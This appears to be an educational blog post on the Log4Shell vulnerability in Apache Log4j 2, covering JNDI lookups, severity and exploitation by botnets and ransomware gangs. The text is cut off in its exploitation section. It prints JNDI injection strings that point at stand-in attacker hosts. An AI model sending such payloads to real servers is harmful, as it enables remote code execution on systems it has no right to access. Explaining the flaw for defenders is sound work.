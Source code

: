 ```yaml
---
title: "Log4Shell Vulnerability: What You Need to Know"
excerpt: "The Log4Shell (CVE-2021-44228) vulnerability shook the cybersecurity world. Learn how it works, why it’s critical, and how to protect your systems."
author: "Jane Smith"
date: "April 10, 2024"
readTime: "11 min read"
tags: ["Cybersecurity", "Log4Shell", "Java", "Zero-Day", "Vulnerability"]
---
```



## Introduction

In December 2021, a critical vulnerability was disclosed in Apache Log4j 2, a widely-used Java logging framework. Tracked as **CVE-2021-44228** and dubbed **Log4Shell**, this flaw allowed attackers to achieve **unauthenticated remote code execution** (RCE) on servers using vulnerable versions of Log4j.

This blog post provides an in-depth look at how Log4Shell works, why it was so dangerous, and how organizations can defend against similar vulnerabilities.

## Understanding the Vulnerability

The core issue lies in Log4j's support for **JNDI (Java Naming and Directory Interface) lookups** in log messages. Specifically, when an attacker includes a string like `${jndi:ldap://malicious-server.com/a}` in a log message, Log4j attempts to resolve and load the object from the remote server — executing any returned Java class.

### Technical Summary

- **Vulnerability ID:** CVE-2021-44228
- **Component:** Apache Log4j 2 (versions < 2.15.0)
- **Impact:** Remote Code Execution (RCE)
- **Attack Vector:** Log injection via headers, user-agent, etc.
- **Severity:** Critical (CVSS 10.0)

## Real-World Exploitation

The Log4Shell exploit was quickly adopted by threat actors including:

- **Botnet operators**: Integrating the exploit into Mirai and Muhstik
- **Crypto miners**: Using it to drop miners on exposed servers
- **Ransomware gangs**: Targeting VMware Horizon, Jenkins, and cloud platforms

Many organizations, including Amazon, Apple, and Microsoft, scrambled to patch and monitor for indicators of compromise (IoCs).

## Exploiting Log4Shell

Here’s a simplified example:

```java
logger.info("${jndi:ldap://attacker.com/malicious}");
